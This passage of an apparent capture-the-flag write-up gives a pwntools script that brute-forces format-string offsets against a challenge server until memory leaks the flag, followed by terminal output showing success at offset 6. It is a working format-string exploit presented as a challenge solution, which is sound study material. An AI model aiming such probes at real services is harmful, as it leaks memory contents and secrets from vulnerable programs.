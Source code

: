 {% ccb lang:py gutter1:1-11 caption:guardians.py url:gist.github.com/jktrn/abced39a897e40c196dc2eb3348e1db9 url_text:'github gist link' %}
from pwn import *
for i in range(0, 100):
        p = remote('0.cloud.chals.io', 12690)  
        log.info(f"Trying offset {i}...")
        p.sendline(bytes(('%' + str(i) + '$s'), encoding='utf-8'))

        output = p.recvS()
        if 'shctf' in output:
                log.success(output)
                break
        p.close()
{% endccb %}

As you can see, it will send a UTF-8 encoded format string, with `str(i)` being the looping variable. If its output contains the flag, the loop breaks and the script will stop. Let's run it:

{% ccb html:true highlight:24 terminal:true %}
<span class="meta prompt_">$ </span>python3 exp.py
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 0...
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 1...
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 2...
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 3...
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 4...
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 5...
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 6...
[<span style="color:#47D4B9"><b>+</b></span>] Does Quill manage to win the dance battle?
    Oh no, Ronano has seen through the distraction!
    shctf&#123;im_distracting_you&#125;
{% endccb %}

---
